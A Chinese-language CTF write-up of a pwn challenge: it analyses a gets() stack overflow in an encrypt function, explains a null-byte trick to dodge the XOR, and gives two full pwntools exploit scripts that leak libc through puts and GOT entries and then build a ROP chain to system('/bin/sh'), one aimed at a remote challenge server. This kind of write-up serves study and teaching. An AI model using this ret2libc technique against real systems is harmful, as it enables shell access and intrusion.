




## 0x001 程序分析

进入程序，查看main函数



一通打印之后，调用了begin函数，查看下begin函数内容



这里只是打印了一些提示信息，接着往下分析main函数之后的内容

按照提示信息循环接收输入，输入1，则进入加密函数 **encrypt**, 输入2，尽打印一个字符串，输入3，退出程序。

关键在于 **encrypt** 函数。



**encrypt** 函数中，接收输入一个要加密的字符串，通过 **strlen** 获取输入字符串的长度，然后对字符串进行异或加密。

## 0x002 漏洞分析

通过分析，可以很容易看出漏洞位于 **encrypt** 函数，这里使用了gets接收输入，而且未对输入的长度做限制，输入的内容存放在栈上，距离 **rbp** 为 0x50 个字节，因此当输入的内容大于 0x50 个字节时就会覆盖 **rbp**。

## 0x003 漏洞利用

使用checksec查看程序开启了那些保护：



程序开启了NX保护，这里首先想到构造ROP绕过。

由于程序里没有 **system** 函数和 **/bin/sh** 字符串，并且也没有提供libc库，因此需要通过 **LibcSearcher** 或 **DynELF** 来泄漏libc地址。

第一步，首先构造ROP泄漏某个函数的真实地址，这里选择使用 **puts** 来泄漏 **gets** 函数的真实地址。（为什么不选择泄漏puts函数的真实地址呢？由于这里选择使用LibcSearcher来泄漏libc地址，因此使用puts函数的真实地址去获取libc函数的地址时，会提示获取不到，具体原因是此处搜寻到的libc是本机的libc-2.23，需要自行添加到database，具体方法可上github，搜寻libc_database项目）

64位系统下，**puts** 函数参数传递使用的是 **rdi**，需要使用 **ROPgadget** 来获取 **pop rdi ; ret** 指令的地址。

泄漏 **gets** 函数的真实地址的ROP如下：
```
rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
```

这里填充物选择 **"\x00"** 的原因是为了绕过 **encrypt** 函数中的异或加密。由于 **encrypt** 函数对输入字符串进行异或加密的长度是用 **strlen** 获取的，而 **strlen** 获取字符串长度的结束标志就是 **"\x00"**，因此将填充物设置为 **"\x00"** 就可以使 **strlen** 获取到的长度为0，从而绕过后面的异或加密。（只要将第一个设置为 "\x00" 也是可以的，后面填充物无所谓。）

第二步，获取到 **gets** 函数的真实地址后，使用 **LibcSearcher** 来泄漏libc地址，**LibcSearcher**的使用方法为
```
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

通过真实地址以及偏移，可获取libc基地址，然后就可以通过 **system** 函数和 **/bin/sh** 字符串的偏移地址，获取其真实地址。

第三步，再次构造ROP，执行 **system("/bin/sh", 0)** 命令获取系统权限。

**system** 函数参数传递使用的是 **rdi和rsi**，再次使用 **ROPgadget** 来获取 **pop rdi ; pop rsi; ret** 指令的地址。

由于程序中没有直接调用 **pop rdi ; pop rsi; ret** 指令的地址，因此可以选择与其他指令结合一下，如下所示：
```
0x0000000000400c83 : pop rdi ; ret
0x0000000000400c81 : pop rsi ; pop r15 ; ret
```

可以先使用 **pop rdi ; ret** 指令将 **system** 函数的第一个参数 **"/bin/sh"** 赋值给 **rdi**，然后使用 **pop rsi ; pop r15 ; ret** 指令将第二个参数 **0** 赋值给 **rsi**，即可完成 **system** 函数的参数传递。（另一个pop r15指令，可以随意在栈中填充数据赋值给r15）

执行 **system("/bin/sh", 0)** 命令构造的ROP如下:
```
rop2 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)
```

到此即可完成漏洞利用过程。

完整exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./ciscn")
# p = remote("node4.buuoj.cn", 29673)
elf = ELF("./ciscn")

gets_got = elf.got["gets"]
puts_plt = elf.plt["puts"]
main_addr = elf.symbols["main"]
pop_rdi_ret = 0x400c83

rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop1)
p.recvuntil("Ciphertext\n\n")

gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))

libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

pop_rsi_r15_ret = 0x400c81
ret = 0x4006b9

rop2 = b"\x00" * 88 + p64(ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop2)
p.recvuntil("Ciphertext\n\n")

p.interactive()
```

```
from pwn import *
from LibcSearcher import *

# p = process("./ciscn")
p = remote("node4.buuoj.cn", 28954)
elf = ELF("./ciscn")

puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]
main_addr = elf.symbols["main"]
pop_rdi_ret = 0x400c83

rop1 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop1)
p.recvuntil("Ciphertext\n\n")

gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))

libc = LibcSearcher("puts", gets_real_addr)

libcbase = gets_real_addr - libc.dump("puts")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")

pop_rsi_r15_ret = 0x400c81
ret = 0x4006b9

rop2 = b"\x00" * 88 + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_r15_ret) + p64(0) + p64(0) + p64(system_addr)

p.sendlineafter("Input your choice!\n", "1")
p.sendlineafter("Input your Plaintext to be encrypted\n", rop2)
p.recvuntil("Ciphertext\n\n")

p.interactive()
```